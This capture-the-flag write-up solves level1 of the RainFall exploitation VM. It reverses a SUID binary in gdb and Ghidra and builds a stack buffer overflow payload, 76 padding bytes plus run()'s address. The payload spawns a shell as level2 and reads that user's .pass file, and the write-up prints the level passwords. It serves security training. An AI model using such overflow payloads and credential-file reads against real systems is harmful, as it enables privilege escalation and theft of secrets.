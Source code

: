Login as `level1`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.75 -p 4242 -l level1
level1@192.168.1.75's password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```
A `SUID` executable is located in the home directory.
```shell
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$
```
```gdb
level1@RainFall:~$ gdb ./level1
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) disassemble
Dump of assembler code for function main:
   0x08048480 <+0>:		push   %ebp
   0x08048481 <+1>:		mov    %esp,%ebp
=> 0x08048483 <+3>:		and    $0xfffffff0,%esp
   0x08048486 <+6>:		sub    $0x50,%esp
   0x08048489 <+9>:		lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```

```shell
level1@RainFall:~$ ./level1 <<< $(python -c 'print("+"*75)'); echo $?
32
level1@RainFall:~$ ./level1 <<< $(python -c 'print("+"*76)'); echo $?
Illegal instruction (core dumped)
132
level1@RainFall:~$ ./level1 <<< $(python -c 'print("+"*77)'); echo $?
Segmentation fault (core dumped)
139
```
GDB allows to print the names and data types of all defined functions.
```gdb
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) disassemble run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```

Seems that `run()` makes a system call.
Examine memory address `0x8048584` in string format shows which syscall is made.
```gdb
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
(gdb) print (char*) 0x8048584
$16 = 0x8048584 "/bin/sh"
```

By analysing binary with Ghidra, its confirmed that `run()` execute a shell.
```ghidra
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

Print content of `eax` register before function calls
```gdb
(gdb) disassemble run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
(gdb) x/s 0x8048570
0x8048570:	 "Good... Wait what?\n"
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

In order to modify the application at runtime, it is necessary to run the program and then stop it again before it finishes cleanly.
So set breakpoint on `main`, then move the program's execution to another part of the program. Specifically, resume execution at the start of `run()`
```gdb
(gdb) break main
Breakpoint 1 at 0x8048483
(gdb) run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) jump run
Continuing at 0x804844a.
Good... Wait what?
$ whoami
level1
$
```
Upon this, `run()` is successfully ran, but SUID permission of `level2` are lost while running under GDB.

Man of `gets()` mentions BOF vulnerability in SECURITY CONSIDERATIONS section. 
As ASLR isn't enabled it allows to implement BOF. For it, 
Cosider memory address of `run()` and allocated space for str buffer.

```gdb
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp		# allocate 80 bit to *str
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) disassemble run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp		# start address of run() function
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
(gdb)
```
As actuall Linux system is little endian, the address of `run()` should be reversed.
```shell
level1@RainFall:~$ lscpu | grep Endian
Byte Order:            Little Endian
level1@RainFall:~$ (python -c "print('A' * 76 + '\x44\x84\x04\x08')"; cat -) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

